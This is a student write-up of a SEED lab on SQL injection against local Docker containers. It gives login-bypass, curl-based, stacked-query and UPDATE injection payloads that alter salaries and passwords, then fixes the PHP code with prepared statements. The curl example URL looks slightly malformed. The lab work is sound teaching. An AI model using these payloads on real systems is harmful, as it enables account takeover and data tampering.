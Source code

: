 # SQL Injection Attack Lab

SQL injection is a code injection technique that exploits the vulnerabilities in the interface between web applications and database servers.

Web applications often take user *inputs* to construct SQL queries for retrieving or storing data in a database. If these queries are not properly constructed, SQL injection vulnerabilities can arise.

![SQL Injection Attack](https://github.com/moooninjune/SEED-labs/blob/0b33ad65947b0754b4916b8eff9f10c15190fc80/images/lab8-SQL-injection-attack.png)

## Lab Environment Setup:

1. Map the web application's hostname `www.seed-server.com` to the container’s IP address `10.9.0.5`, by adding this entry to the `/etc/hosts` file.

    ```bash
    sudo gedit /etc/hosts

    #add the following entry
    10.9.0.5    www.seed-server.com
    ```

2. To set up this web application, there are two containers, one for hosting the *web application*, and the other for hosting *the database* for the web application.
    - Use the docker-compose.yml file to set up the lab environment.
    ```bash
    $ dcbuild # Alias for: docker-compose build
    $ dcup  # Alias for: docker-compose up
    ```

    - All the containers will be running in the background.
    ```bash
    # to find out the ID of the container
    # Alias for: docker ps --format "{{.ID}} {{.Names}}"
    $ dockps

    # to start a shell on that container
    # Alias for: docker exec -it <id> /bin/bash
    $ docksh <id>
    ```
    - Example:
    ```bash
    #in one terminal:

    $ dockps
    6f9ac28727e7  mysql-10.9.0.6
    501c8b535e7a  www-10.9.0.5

    $ docksh 6f # SQL database container

    #in another terminal:

    $ docksh 50 # web application container
    ```

## Task 1: Get Familiar with SQL Statements:

The data used by our web application is stored in a MySQL database, which is **hosted on our MySQL container**. We have created a database called `sqllab_users`, which contains a table called `credential`. The table stores the personal information (e.g. eid, password, salary, ssn, etc.) of every employee.

Inside the MySQL container:
```
# mysql -u root -pdees

mysql> use sqllab_users;
Database changed

mysql> show tables;
+------------------------+
| Tables_in_sqllab_users |
+------------------------+
| credential             |
+------------------------+
```

Use a SQL command to print all the profile information of the employee *Alice*:
```sql
select * from credential where Name='Alice';
```

## Task 2: SQL Injection Attack on *SELECT* Statement:

### Task 2.1: SQL Injection Attack from webpage.
- Username: `Admin' #`
- Password: Whatever you want, leave it empty even...

    It's like using a SQL query like this:
    ```sql
    select *
    from credential
    where name= 'Admin' #' and password='whatever';
    ```
    ```sql
    --normally it'd be something like this:
    where name= 'Admin' and password='admin-passwd';
    ```

    `#` is used to begin a comment in MySQL. Everything following the `#` is ignored by the query. So, we deleted the `and` condition, and the query now only checks for a match on the `name` field, allowing attackers to log in as Admin regardless of the password.

---
### Task 2.2: SQL Injection Attack from command line.
The same as Task 2.1, but without using the webpage.
- Using the command `curl`: which can send HTTP GET requests.
- If you want to include multiple parameters (*username*, *password*) in HTTP requests, you need to put the URL and the parameters between a pair of single quotes.

    ```bash
    # sending an HTTP GET request
    $ curl 'http://www.seed-server.com/unsafe_home.php?username=Admin%27%20%23Password=whatever'

    # so it's like
    username= Admin' #
    password= whatever
    ```
    Special characters are encoded:
    - `%27` = single quote
    - `%20` = space
    - `%23` = hashtag #

- Then, export the html output into a `file.html` and open it. It contains all information we need but lacks the layout controls by a specified `CSS` file.
---
### Task 2.3: Append a new SQL statement.

Using an SQL query like this:
```sql
INSERT INTO credential (name, eid) VALUES ('Hello','123456');
```
Username: `a'; INSERT INTO credential (name, eid) VALUES ('Hello','123456') #`

![alt text](image.png)

It doesn't support for multiple queries as we can see.

## Task 3: SQL Injection Attack on *UPDATE* Statement:

### Task 3.1: Modify your own salary.
Log in as Alice and modify any field with:
```sql
', Salary=1000000 where name='Alice'#
```
---
### Task 3.2: Modify other people’ salary.
Log in as Alice and modify any field with:
```sql
', Salary=1 where name='Boby'#
```
---
### Task 3.3: Modify other people’ password.
Use a SHA1 hash function generator:

![alt text](image-1.png)

Log in as Alice and modify any field with:
```sql
', password='b0fdeba62faee00f08540fdd2d312404e5079938' where name='Boby' #
```
Check if Boby's password was modified:

![alt text](image-2.png)

## Task 4: Countermeasure — Prepared Statement:

1. Inside the lab setup folder, We'll modify the `unsafe.php` program inside the `image_www/Code/defense` folder.

    These are the lines that are *unsafe*:
    ```php
    $result = $conn->query("SELECT id, name, eid, salary, ssn
                            FROM credential
                            WHERE name= '$input_uname' and Password= '$hashed_pwd'");
    if ($result->num_rows > 0) {
    // only take the first row 
    $firstrow = $result->fetch_assoc();
    $id     = $firstrow["id"];
    $name   = $firstrow["name"];
    $eid    = $firstrow["eid"];
    $salary = $firstrow["salary"];
    $ssn    = $firstrow["ssn"];
    }
    ```

    We'll change them to:
    ```php
    $stmt = $conn->prepare("SELECT id, name, eid, salary, ssn
                            FROM credential
                            WHERE name=? and Password=?");

    $stmt->bind_param("ss", $input_uname, $hashed_pwd);
    $stmt->execute();
    $stmt->bind_result($id, $name, $eid, $salary, $ssn);
    $stmt->fetch();
    ```

    Now, the query structure cannot be changed by user inputs, and inputs are **Data-Only**, so SQL commands from user inputs are ignored.

2. After you are done, you need to **rebuild and restart the container**, or the changes will not take effect. Also, make sure to move all the files inside the `defense` folder to the `code` folder because of the `docker-compose.yml`.

3. Open the website and see if the attacks still work. (They shouldn't).

    ![alt text](image-3.png)

    ![alt text](image-4.png)
